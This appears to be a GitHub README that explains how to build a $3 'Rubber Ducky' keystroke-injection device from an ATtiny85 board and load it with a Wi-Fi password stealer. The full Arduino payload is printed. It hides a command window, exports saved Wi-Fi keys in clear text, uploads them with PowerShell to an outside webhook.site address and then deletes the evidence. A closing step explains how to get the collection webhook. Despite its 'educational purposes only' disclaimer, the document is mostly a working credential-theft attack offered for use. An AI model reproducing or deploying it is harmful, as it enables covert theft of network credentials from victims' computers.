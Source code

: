 # At-Home-Rubber-Ducky
Below is how you can create your own Rubber Ducky for just $3. 

## First thing first
This is for educational purposes ONLY! Do not use this to steal Wi-Fi passwords without permission. I am not liable for your misuse. 

### Now that that's out of the way

This is how you create your own Rubber Ducky for just $3. Hak5 is AMAZING, so please buy their stuff. If you can't afford it, here's how you can do it on your own.

### Step One: Attiny85 Micro USB

You can buy this from Amazon. A pack of 5 is around $16. https://www.amazon.com/dp/B0836WXQQR/ref=cm_sw_r_tw_dp_A5PPTYEPXT6SYT50JM02

### Step Two: Arduino Software

Attiny85 Micro USB works with Arduino. Installation is straightforward. Agree, click next, and download. 

https://www.arduino.cc/en/software

### Step Three: Configuration of Arduino

Once Arduino is installed and running, go to File > Preferences. From here, go to Additional Board Manager URLs, and copy in: http://digistump.com/package_digistump_index.json
Next, go to Tools > Board > Board Manager. Search for Digispark, and install Digistump AVR Boards.

### Step Four: Download Digistump Arduino Drivers

Go to https://github.com/digistump/DigistumpArduino/releases, and download the zip file. Unzip it, and run the Install Drivers application

### Step Five: Finally, the Payloads

Go to https://github.com/MTK911/Attiny85/tree/master/payloads, and click Wi-Fi Password Stealer. I prefer the WifiKey-Grab_Minimize-of-Shame.ino, but choose your favorite. I made slight changes to the code, increasing the delay, and adding "Fi" to some "-Wi-Fi" portions, and I will show you here:

>/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
   
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu  
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("powershell Select-String -Path Wi-Fi* -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-Fi* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(500);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  
}
  

### Step Six: Webhook.site

Go to https://webhook.site and get your own personalized webhook uri. 

 
